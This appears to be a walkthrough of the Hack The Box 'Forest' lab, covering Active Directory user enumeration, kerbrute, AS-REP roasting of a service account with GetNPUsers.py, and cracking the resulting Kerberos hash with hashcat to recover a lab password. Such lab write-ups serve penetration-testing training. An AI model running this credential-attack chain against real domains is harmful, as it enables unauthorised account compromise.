 
```
index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA  Name: (null)    Desc: (null)                                   
index: 0xfbc RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: Administrator     Desc: Built-in account for administering the computer/domain
index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy  Name: Andy Hislip       Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
```
![[Pasted image 20231114150919.png]]

```
Account: lucinda       Name: Lucinda Berger    Desc: (null)
index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark  Name: Mark Brandt       Desc: (null)
index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi Name: Santi Rodriguez   Desc: (null)
index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien     Name: Sebastien Caron
```
![[Pasted image 20231114150950.png]]

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]

user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]

```

DNS enumeration
![[Pasted image 20231114152326.png]]

```
dnsrecon -r 127.0.0.0/24 -n 10.10.10.161
```
![[Pasted image 20231114152720.png]]

So we have usernames with us let try to brute force it using kerbutes that we have used earlier in active Directory.
```
kerbrute userenum -d htb.local --dc 10.10.10.161 userlist.txt -t 100
```
![[Pasted image 20231114154019.png]]
```
Administrator
andy
mark
santi
sebastien
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
lucinda
svc-alfresco
andy
mark

sebastien@htb.local
lucinda@htb.local
Administrator@htb.local
mark@htb.local
santi@htb.local
svc-alfresco@htb.local
mark@htb.local
andy@htb.local
mark@htb.local
forest@htb.local
Mark@htb.local
administrator@htb.local
Andy@htb.local
sebastien@htb.local
MARK@htb.local
Forest@htb.local
santi@htb.local
lucinda@htb.local
Administrator@htb.local
ANDY@htb.local
```

Let's see which account seems juicy to us

Administrator@htb.local
Forest@htb.local
svc-alfresco@htb.local


Seeing the service account only one thing comes to mind is to get the kerbrose ticket
let see if we can get the hash for it or not.
```
GetNPUsers.py -dc-ip 10.10.10.161  htb.local/svc-alfresco -no-pass
```
![[Pasted image 20231114154722.png]]
My hunch was right and we got the hash.

```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:56f523791e059c3f7bef1cd5a7b4d13d$7ee816dbbca9b4ed3d15391217dee6008846179f82bd5db231b77ea81c1f8e516ccb0b5e543e218f9a0786e1524595afafa58e19268210f21ce1e6a1c411226fa454b5a6f1ab47b3de26834f40cce90d6fff87a9fa629074c96e74da5e4a4a72f3a220ddb9a78c13c8f6a5af0cb3a9d3643349ff51cb05ad8434914c01d26475c418c10cd4517a60043c20c4573dd450421fabe1db2e7eb1d5f9780023a7fe8955ad3e69656163980184823e6c2e7cb428c9fc8e90d40605f04abcf891016de01bc0f4f68222fa40c1553cae2ee44ce319e859cffabec1d71ec7cf7537297674d96c0e488d36
```

But before cracking it let's analyse the version and everything of it.
```
hashcat --help | grep Kerberos
```
![[Pasted image 20231114155037.png]]
As you can see that we have version 5 and etype of 23 
7500 || 13100 || 18200

Let's now see if we can crack it or not
so 18200 type was confirmed and after trying like 3-4 times with little tweaks got the password
```
.\hashcat.exe -m 18200 -a 0 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20231114155533.png]]

So we got the password
```
s3rvice
```
Now we can either login in smb and see if it's working or try psexec or evil-winrm

